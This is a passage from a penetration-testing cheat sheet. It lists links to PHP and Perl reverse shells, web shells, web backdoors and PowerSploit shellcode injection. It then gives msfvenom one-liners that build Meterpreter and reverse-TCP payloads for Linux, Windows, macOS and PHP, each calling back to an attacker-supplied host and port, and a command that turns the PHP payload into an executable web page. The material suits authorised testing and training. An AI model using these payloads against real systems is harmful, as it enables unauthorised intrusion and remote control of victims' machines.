 	Xnest :1

	You’ll need to authorise the target to connect to you (command also run on your host):

	xhost +targetip

    [http://pentestmonkey.net/tools/web-shells/php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

-   php-findsock-shell - turns PHP port 80 into an interactive shell  
    [http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://pentestmonkey.net/tools/web-shells/php-findsock-shell)

-   Perl Reverse Shell ( Very helpfull )  
    [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

-   PHP powered web browser Shell b374k with file upload etc.  
    [https://github.com/b374k/b374k](https://github.com/b374k/b374k)

-   Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell 
    https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1
    
-   Web Backdoors from Fuzzdb 
    https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors

-   Creating Meterpreter Shells with MSFVenom - http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/
      
      *Linux*
      
      `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`
      
      *Windows*
      
      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`
      
      *Mac*

      `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`
      
      **Web Payloads**
      
      *PHP*
      
      `msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
      
      OR
      
      `msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
      
      Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage:
      
      `cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`
      